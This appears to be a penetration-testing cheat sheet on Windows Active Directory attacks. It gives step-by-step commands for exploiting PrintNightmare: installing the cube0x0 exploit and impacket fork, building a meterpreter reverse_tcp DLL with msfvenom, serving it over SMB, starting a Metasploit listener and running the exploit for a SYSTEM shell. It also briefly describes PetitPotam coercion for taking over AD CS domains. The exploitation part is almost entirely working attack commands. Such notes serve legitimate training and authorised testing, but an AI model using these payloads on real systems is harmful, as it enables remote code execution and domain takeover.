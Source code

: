 ## PrintNightmare

  **PrintNightmare** is the nickname to two CVE ([2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the **Print Spooler service**. This allow RCE and PE. We will be using this [tool](https://github.com/cube0x0/CVE-2021-1675). We need the *cube0x0*'s version of Impacket:
```console
zero@pio$ git clone https://github.com/cube0x0/CVE-2021-1675.gi
zero@pio$ pip3 uninstall impacket
zero@pio$ git clone https://github.com/cube0x0/impacket 
zero@pio$ cd impacket; python3 ./setup.py install
```

We can use **rpcdump.py** to check if **Print System Asynchronous Protocol** and **Print System Remote Protocol**:
```console
zero@pio$ rpcdump.py @<IP> | egrep 'MS-RPRN|MS-PAR'
```

After confirming it, we can create a DDL payload:
```console
zero@pio$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=8080 -f dll > backupscript.dll
```

We will host this payload in a SMB share using **smbserver.py**:
```console
zero@pio$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

We can use MSF now to start a listener:
```console
msf > use exploit/multi/handler
msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp 
msf > set LHOST 10.129.202.111 
msf > set LPORT 8080
msf > run
```

Now, run the exploit:
```console
zero@pio$ sudo python3 CVE-2021-1675.py <DOMAIN>.local/<USER>:<PASSWORD>@172.16.5.5 '\\<OUR IP>\CompData\backupscript.dll'
```

If everything works, we will have a SYSTEM shell.

### PetitPotam (MS-EFSRPC) 

PetitPotam ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)) is an LSA spoofing. An unauthenticated attacker can coarce the DC to authenticate against another host using NTLM over oort 445 via **Local Security Authority Remote Protocol** (**LSARPC**), by abusing Microsoft's **Encrypting FIle System Remote Protocol** (**MS-EFSRPC**). This allows an unauthenticated attacker to take over a Windows Domain where **Active Directory Certificate Services** (**AD CS**) are in use. This can be used with **Rubeus** or **gettgtpkinit.py** from [PKINITtools](https://github.com/dirkjanm/PKINITtools). [Here](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) is explain in detail.
